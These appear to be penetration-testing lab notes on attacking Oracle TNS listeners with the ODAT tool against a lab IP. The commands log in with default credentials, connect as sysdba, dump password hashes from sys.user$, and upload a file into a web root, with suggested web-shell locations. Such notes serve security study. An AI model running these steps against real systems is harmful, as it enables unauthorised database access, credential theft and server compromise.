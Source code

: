 ### Oracle Transparent Network Substrate (TNS)
----------------------
TCP 1521
Config:
- $ORACLE_HOME/network/admin
- tnsnames.ora - resolve service names to network addresses
- listener.ora - determine the services it should listen to and the behavior of the listener

nmap scripts:
- oracle-sid-brute

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

ODAT (Oracle Database Attacking Tool)
```shell-session
./odat.py all -s 10.129.204.235
```

Connect:
```shell-session
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
```shell-session
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip && wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip && sudo mkdir -p /opt/oracle && sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip && sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip && cd /opt/oracle/instantclient_21_4 && find . -type f | sort && export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH && export PATH=$LD_LIBRARY_PATH:$PATH && source ~/.bashrc && sqlplus -V
```
```shell-session
sqlplus scott/tiger@10.129.204.235/XE
```
```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

DBSNMP default password: dbsnmp

Oracle database interactions:
- select table_name from all_tables;
- select * from user_role_privs;

Query database passwords:
```shell-session
select name, password from sys.user$;
```

Upload a web shell:
- /var/www/html (Linux)
- C:\inetpub\wwwroot (Windows)

File upload test:
```shell-session
echo "Oracle File Upload Test" > testing.txt
```
```shell-session
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
```shell-session
curl -X GET http://10.129.204.235/testing.txt
```

